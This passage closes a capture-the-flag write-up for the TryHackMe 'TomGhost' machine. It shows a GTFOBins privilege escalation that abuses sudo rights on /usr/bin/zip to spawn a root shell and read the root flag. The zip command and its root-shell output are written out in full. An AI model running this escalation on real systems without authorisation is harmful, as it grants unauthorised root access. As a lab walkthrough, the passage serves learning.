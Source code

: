 * Great ! Our user can run ```/usr/bin/zip``` binary with ```root privileges``` and we are going to leverage this binary to escalate our privileges.
* The best way to do so, is by refering to <a href="https://gtfobins.github.io/gtfobins/zip/#sudo" target="_blank"><er>GTFOBins</er></a>
<figure><center><img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/My-Files/main/Img2.png?token=GHSAT0AAAAAABX22E4Y6AHS4NTHQTKJ7YK4YYC6BVA" width="738" height="423" alt=""></center><center><em><figcaption>GTFOBins</figcaption></em></center></figure>

* By running those commands, you should expect a ```root shell``` :
```console
merlin@ubuntu:/home/skyfuck$ TF=$(mktemp -u)
merlin@ubuntu:/home/skyfuck$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
root@ubuntu# whoami
root
root@ubuntu# cat /root/root.txt
THM{REDACTED}
```

## **<strong><font color="Brown">TomGhost Pwned</font></strong>**

***

<strong><font color="DarkGray">And there you have it, we have successfully pwned the TomGhost machine and retrieved the root flag</font></strong>
<br/>
<strong><font color="DarkGray">Hope you enjoyed it! If you have any questions, you can find me on <a href="https://twitter.com/YounesTasra" target="_blank"><er>Twitter</er></a> or <a href="https://www.linkedin.com/in/younes-tasra-95a1a4234/" target="_blank"><er>Linkedin</er></a></font></strong>

***